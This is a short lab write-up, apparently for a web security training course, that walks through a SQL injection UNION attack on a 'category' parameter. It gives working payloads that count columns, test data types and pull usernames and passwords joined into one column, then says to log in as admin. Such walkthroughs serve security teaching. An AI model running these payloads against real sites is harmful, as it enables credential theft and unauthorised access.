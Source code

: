 
### SQL injection UNION attack, retrieving multiple values in a single column : PRACTITIONER

---

The `category` query parameter is vulnerable to SQL injection.
- We will use a `UNION` based attack.

##### 1. Get the number of columns:
```
' UNION SELECT NULL, NULL--
```
- They are 2, as 3 gets an error.

##### 2. Get the data types
```
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'--
```
- We need strings to get usernames and passwords.

> Only the second column is of type string, and we want to return both `username` and `password`.

##### 3. Perform an Injection

To return both values that are strings in the place of a single column, we can use concatenation. 

```
' UNION SELECT NULL, username || ':' || password FROM users--
```
- This concatenates the values of the `username` and the `password` columns and places a `:` between them.

![](./screenshots/5-1.png)

Get the admin password and login to complete the lab.

---
